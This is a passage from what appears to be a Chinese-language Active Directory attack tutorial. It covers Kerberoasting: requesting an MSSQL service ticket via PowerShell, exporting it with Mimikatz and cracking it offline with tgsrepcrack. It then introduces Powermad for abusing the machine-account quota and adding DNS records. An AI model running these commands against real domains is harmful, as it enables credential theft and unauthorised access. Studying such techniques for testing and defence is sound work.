 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012b0ec49f6845e6ea.png)

```
&gt; Add-Type -AssemblyName System.IdentityModel  
&gt; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.jmu.com:1433" 
```

从 Mimikatz 里面提取票据

```
mimikatz # kerberos::list /export
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0187defc9b5b476846.png)

使用 tgsrepcrack 爆破票据

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

[![](https://p1.ssl.qhimg.com/t013c49a0855b313e9a.png)](https://p1.ssl.qhimg.com/t013c49a0855b313e9a.png)

### [Powermad](%20https:/github.com/Kevin-Robertson/Powermad%20)

默认的Active Directory ms-DS-MachineAccountQuota属性设置允许所有域用户向一个域中最多添加10个计算机帐户。

[![](https://p1.ssl.qhimg.com/t01aa4618c04d187f47.png)](https://p1.ssl.qhimg.com/t01aa4618c04d187f47.png)

Powermad包括一组用于利用ms-DS-MachineAccountQuota的功能，而无需将实际系统附加到AD。

[![](https://p0.ssl.qhimg.com/t019323d698d42fa7dc.png)](https://p0.ssl.qhimg.com/t019323d698d42fa7dc.png)

[![](https://p0.ssl.qhimg.com/t01329134a7bca6b93d.png)](https://p0.ssl.qhimg.com/t01329134a7bca6b93d.png)

这个时候的账户还没有在DNS服务器里面注册

[![](https://p2.ssl.qhimg.com/t015335625c3af37852.png)](https://p2.ssl.qhimg.com/t015335625c3af37852.png)

添加个DNS记录

[![](https://p1.ssl.qhimg.com/t0138e8dc7e160023c3.png)](https://p1.ssl.qhimg.com/t0138e8dc7e160023c3.png)
